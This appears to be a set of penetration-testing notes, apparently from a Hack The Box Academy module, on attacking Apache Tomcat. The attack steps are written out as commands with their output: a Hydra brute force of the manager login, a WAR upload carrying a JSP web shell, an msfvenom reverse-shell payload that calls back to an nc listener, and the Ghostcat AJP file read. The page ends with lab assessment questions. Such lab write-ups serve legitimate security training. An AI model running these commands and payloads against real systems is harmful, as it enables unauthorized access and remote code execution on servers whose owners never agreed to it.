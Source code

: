 ```yaml
---
description: >-
  If we can access the /manager or /host-manager endpoints, we can likely
  achieve remote code execution on the Tomcat server
---
```


# Attacking Tomcat

## Tomcat Manager - Login Brute Force

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

{% embed url="https://github.com/oppsec/tomcter" %}
This seems interesting to try
{% endembed %}

Tomcat uses basic auth where credential pair are base64 encoded and placed into Authorization header&#x20;

## Tomcat Manager - WAR File Upload

* Many Tomcat installations provide a GUI interface to manage the application
* The interface is available at `/manager/html` by default
* Only `manager-gui` role are allowed to access.
* A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png" alt=""><figcaption><p>http://web01.inlanefreight.local:8180/manager/html</p></figcaption></figure>

* A WAR file can be created using the zip utility.
* A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr\_deploy.png)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/war_deployed.png" alt=""><figcaption><p>/backup appeared in table</p></figcaption></figure>

click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error.

specify the `cmd.jsp` file in the URL as well, this will give us a webshell that we can use to run commands on Tomcat server.

```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

> undeploy -> to clean up the webshell

**`msfvenom` to generate a malicious WAR file**

```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

```shell-session
nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224


id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## CVE-2020-1938 : Ghostcat

* Tomcat was found to be vulnerable to an unauthenticated LFI
* Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable
* caused by a misconfiguration in the AJP protocol used by Tomcat
* AJP service is usually running at port 8009 on a Tomcat server

```shell-session
nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

scan confirms that ports 8080 and 8009 are open

* PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi).

```shell-session
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.

## Assessment

Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?



What is the password?



Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat\_flag.txt

